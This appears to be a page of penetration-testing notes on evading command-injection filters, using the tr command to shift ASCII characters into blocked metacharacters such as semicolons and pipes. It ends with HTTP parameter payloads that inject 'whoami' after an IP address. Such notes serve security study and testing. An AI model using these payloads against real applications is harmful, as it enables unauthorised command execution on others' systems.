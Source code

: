 ## Character Shifting Techniques

### Linux Character Shifting

**Understanding ASCII Shifting:**
- Each character has an ASCII value
- We can shift characters by 1 position to get adjacent characters
- Useful when the exact character is blocked but adjacent ones aren't

**Basic Shifting Command:**
```bash
# tr command shifts character range
echo $(tr '!-}' '"-~'<<<[)
# Result: \
```

**How It Works:**
```bash
# ASCII values:
# [ = 91 (decimal)
# \ = 92 (decimal)

# tr '!-}' '"-~' shifts each character by +1
# So [ (91) becomes \ (92)
```

**Finding Characters for Shifting:**
```bash
# Check ASCII table
man ascii

# Find character before semicolon
# ; = 59 (decimal) = 073 (octal)
# : = 58 (decimal) = 072 (octal)

# Generate semicolon
echo $(tr '!-}' '"-~'<<<:)
# Result: ;
```

### Practical ASCII Reference

**Common Characters and Their Predecessors:**
```bash
# Target → Predecessor → Shift Command
;  (59)  →  :  (58)   → echo $(tr '!-}' '"-~'<<<:)
\  (92)  →  [  (91)   → echo $(tr '!-}' '"-~'<<<[)
|  (124) →  {  (123)  → echo $(tr '!-}' '"-~'<<<{)
&  (38)  →  %  (37)   → echo $(tr '!-}' '"-~'<<<%)
```

**Web Application Usage:**
```http
# Using shifted semicolon
ip=127.0.0.1$(tr '!-}' '"-~'<<<:) whoami

# Combining with other techniques
ip=127.0.0.1$(tr '!-}' '"-~'<<<:)${IFS}whoami
```
